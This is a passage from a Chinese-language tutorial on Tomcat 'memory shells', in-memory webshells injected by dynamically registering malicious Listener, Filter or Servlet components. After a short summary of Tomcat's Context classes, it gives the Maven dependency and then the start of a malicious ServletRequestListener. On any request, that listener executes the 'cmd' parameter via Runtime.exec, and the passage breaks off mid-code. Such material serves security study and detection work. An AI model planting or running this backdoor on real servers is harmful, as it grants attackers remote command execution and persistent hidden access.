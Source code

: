 ```java
...
```
## 3.5、总结
我们可以用一张图来表示各`Context`的关系
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712624951808-bc38965a-14e4-436d-a396-94f691667e6e.png#averageHue=%23f2f2f2&clientId=u9c24ba4b-c398-4&from=paste&height=608&id=u4b123b82&originHeight=1216&originWidth=1074&originalType=binary&ratio=2&rotation=0&showTitle=false&size=163372&status=done&style=none&taskId=u1edbf05b-10eb-4120-acc3-c4d2d10701d&title=&width=537)

`ServletContext`接口的实现类为`ApplicationContext`类和`ApplicationContextFacade`类，其中`ApplicationContextFacade`是对`ApplicationContext`类的包装。我们对`Context`容器中各种资源进行操作时，最终调用的还是`StandardContext`中的方法，因此`StandardContext`是`Tomcat`中负责与底层交互的`Context`。
# 4、Tomcat内存马
Tomcat内存马大致可以分为三类，分别是`Listener`型、`Filter`型、`Servlet`型。可能有些朋友会发现，这不正是`Java Web`核心的三大组件嘛！没错，`Tomcat`内存马的核心原理就是动态地将恶意组件添加到正在运行的`Tomcat`服务器中。

而这一技术的实现有赖于官方对`Servlet3.0`的升级，`Servlet`在`3.0`版本之后能够支持动态注册组件。而`Tomcat`直到`7.x`才支持`Servlet3.0`，因此通过动态添加恶意组件注入内存马的方式适合`Tomcat7.x`及以上。为了便于调试`Tomcat`，我们先在父项目的`pom`文件中引入`Tomcat`依赖
```xml
<dependency>
  <groupId>org.apache.tomcat</groupId>
  <artifactId>tomcat-catalina</artifactId>
  <version>8.5.31</version>
</dependency>
```
## 4.1、Listener型
根据以上思路，我们的目标就是在服务器中动态注册一个恶意的Listener。而Listener根据事件源的不同，大致可以分为如下三种

- `ServletContextListener`
- `HttpSessionListener`
- `ServletRequestListener`

很明显，`ServletRequestListener`是最适合用来作为内存马的。因为`ServletRequestListener`是用来监听`ServletRequest`对象的，当我们访问任意资源时，都会触发`ServletRequestListener#requestInitialized()`方法。下面我们来实现一个恶意的`Listener`
```java
package com.ma.ListenMa;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;


@WebListener
public class ListenerMa1 implements ServletRequestListener {

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        System.out.println(cmd);
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
```